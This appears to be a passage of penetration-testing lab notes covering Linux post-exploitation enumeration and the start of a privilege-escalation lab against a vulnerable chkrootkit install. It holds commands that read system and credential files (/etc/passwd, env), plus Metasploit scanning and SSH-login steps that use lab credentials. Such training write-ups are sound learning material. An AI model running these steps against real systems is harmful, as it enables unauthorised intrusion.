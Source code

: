 ```bash
loot
cat /root/.msf4/loot/20230422110345_Linux_PostExp_192.215.55.3_linux.enum.users_227379.txt

    whoami
    cat /etc/passwd
    cat /etc/*issue
    cat /etc/*release
    uname -a
    ip a s
    netstat -antp
    ss -tnl
    ps aux
    env
```

------

## Lab 2 - Privilege Escalation

> 🔬 [Privilege Escalation - Rootkit Scanner](https://attackdefense.com/challengedetails?cid=1396)
>
> - Target IP: `192.15.244.3`
> - Exploit a vulnerable **Rootkit Scanner** and escalate privileges to root user
> - [Chkrootkit 0.49 - Local Privilege Escalation](https://www.exploit-db.com/exploits/33899)
> - SSH Credentials: `jackie`:`password`

```bash
ip -br -c a
	192.15.244.2/24
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.15.244.3
setg RHOST 192.15.244.3
workspace -a Linux_Privesc
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 192.15.244.3
```

```bash
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
```

### Exploitation - SSH

```bash
search ssh_login
use auxiliary/scanner/ssh/ssh_login
options
set USERNAME jackie
set PASSWORD password
run
```
